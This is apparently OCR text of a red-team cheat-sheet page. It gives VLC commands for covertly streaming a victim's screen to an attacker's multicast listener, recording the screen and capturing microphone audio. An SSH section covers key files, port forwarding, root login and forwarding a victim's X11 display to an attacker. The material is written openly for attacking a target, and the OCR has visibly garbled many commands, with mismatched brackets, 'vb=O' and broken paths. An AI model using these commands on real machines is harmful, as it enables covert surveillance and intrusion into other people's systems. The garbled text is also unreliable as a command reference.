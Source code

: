 ### Save and stream on broadcast

```text
# Start a listener on attacker machine for multicast
vlc udp://@ multicastaddr :1234

# Broadcast stream to a multicast address
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst= multicastaddr :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```

### Save and record the screen in a file

```text
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):file{dst=C:\\Program Files (x86)\\VideoLAN\\VLC\\test.mp4)
:no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep
```

### Record and stream microphone on udp

```text
vlc dshow:// :dshow-vdev="None" :dshow-adev="Your Audio Device"
```

## SSH command

```text
/etc/ssh/ssh known hosts #System-wide known hosts
-/.ssh/known_hosts #Hosts user has logged into
sshd-generate #Generate SSH keys (DSA/RSA)
ssh keygen -t dsa -f /etc/ssh/ssh_host_dsa_key #Generate SSH DSA keys
ssh keygen -t rsa -f /etc/ssh/ssh_host_rsa_key #Generate SSH RSA keys

If already in ssh session, press SHIFT -C to configure tunnel
Port forwarding must be allowed on the target
/etc/ssh/sshd_config - AllowTcpForwarding YES
```

### Connect with ssh with specific port

```text
ssh root@2.2.2.2 -p 8222
```

### Set x11 victim to attacker

```text
xhost+
vi -/.ssh/config- Ensure 'ForwardXll yes'
ssh -X root@2.2.2.2
```
